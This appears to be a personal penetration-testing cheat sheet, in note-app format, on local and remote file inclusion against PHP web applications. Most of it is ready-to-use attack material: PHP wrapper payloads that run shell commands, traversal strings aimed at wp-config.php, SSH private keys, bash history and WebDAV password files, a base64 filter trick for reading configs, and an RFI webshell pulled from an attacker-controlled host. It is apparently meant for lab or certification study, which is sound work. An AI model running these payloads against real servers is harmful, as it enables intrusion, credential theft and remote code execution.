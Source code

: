 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

#### LFI
Also try [[5_Contaminating Log Files]]

#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```

```bash - kali
python lfisuite.py
```

Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```

Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```

#### PHP Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

[[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP_Webshells#PHP]]

---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```

```
/etc/apache2/sites-enabled/000-default.conf
```

Can you download the source code?  Then just find / grep for password file locations!

==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```

```
/home/user/.ssh/id_rsa
```

```
/home/user/.ssh/id_rsa.pub
```

```
/home/user/.bash_history
```

```
/var/www/html/wp-config.php
```

#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```

#### Wordpress config.php

Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```

```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```

#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```

#### RFI
==Remember for RFI, the file has to be txt!==

WWOLF:

[[0._PHP_Webshells#wwolf]]

Save as webshell.txt

```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```

![[Pasted image 20220329093728.png]]

evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![[Python#Server]]

```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```

#### Terminators
Null byte:
```
%00
```

```
?
```

![[Pasted image 20220506120304.png]]

Just by adding a question mark on this example, we got our webshell to work.

![[Pasted image 20220506120325.png]]

